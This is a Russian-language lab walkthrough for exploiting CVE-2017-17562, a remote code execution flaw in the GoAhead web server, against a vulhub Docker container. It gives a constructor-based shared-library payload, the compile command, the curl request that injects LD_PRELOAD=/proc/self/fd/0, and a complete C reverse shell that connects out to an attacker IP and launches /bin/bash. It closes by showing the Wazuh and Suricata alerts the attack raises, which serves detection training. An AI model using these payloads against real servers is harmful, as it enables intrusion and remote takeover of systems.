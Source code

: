 # CVE-2017-17562

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-17562](https://nvd.nist.gov/vuln/detail/CVE-2017-17562)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17562)
* [https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/](https://securityonline.info/cve-2017-17562-goahead-httpd-2-5-3-5-remote-code-execution-vulnerability/)

GoAhead — это встраиваемый веб-сервер компании Embedthis, который используется в продуктах Oracle, IBM, HP и других известных производителей.

Embedthis GoAhead до версии 3.6.5 позволяет удаленно выполнить код, если включен CGI и CGI-программа динамически компонуется. Это происходит в результате инициализации окружения форк CGI-скриптов с помощью недоверенных параметров HTTP-запроса в функции cgiHandler в файле cgi.c. В сочетании с динамическим компоновщиком glibc такое поведение может быть использовано для удаленного выполнения кода с помощью специальных имен параметров, таких как LD\_PRELOAD. Злоумышленник может поместить полезную нагрузку разделяемого объекта в тело запроса и сослаться на него, используя /proc/self/fd/0.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2017-17562

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница, сигнализирующая об успешном старте сервера

<figure><img src="../../.gitbook/assets/cve-2017-17562(1).png" alt=""><figcaption></figcaption></figure>

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC payload.c -o payload.so
```

Где payload.c - это файл с вышеупомянутым кодом

<figure><img src="../../.gitbook/assets/cve-2017-17562(2).png" alt=""><figcaption></figcaption></figure>

Используйте утилиту curl, чтобы произвести атаку:

```
curl -X POST --data-binary @payload.so "http://ваш-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

В ответе мы можем видеть, что появился заголовок hello со значением World!, что свидетельствует об успешном выполнении кода

<figure><img src="../../.gitbook/assets/cve-2017-17562(3).png" alt=""><figcaption></figcaption></figure>

Для получения обратной оболочки проведите те же манипуляции с данным кодом:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

<figure><img src="../../.gitbook/assets/cve-2017-17562(4).png" alt=""><figcaption></figcaption></figure>

После отправки POST-запроса мы получаем обратную оболочку уязвимой машины

<figure><img src="../../.gitbook/assets/cve-2017-17562(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata о предположительно вредоносных запросах и о загрузке исполняемых файлов на уязвимый хост

<figure><img src="../../.gitbook/assets/cve-2017-17562(6).png" alt=""><figcaption></figcaption></figure>
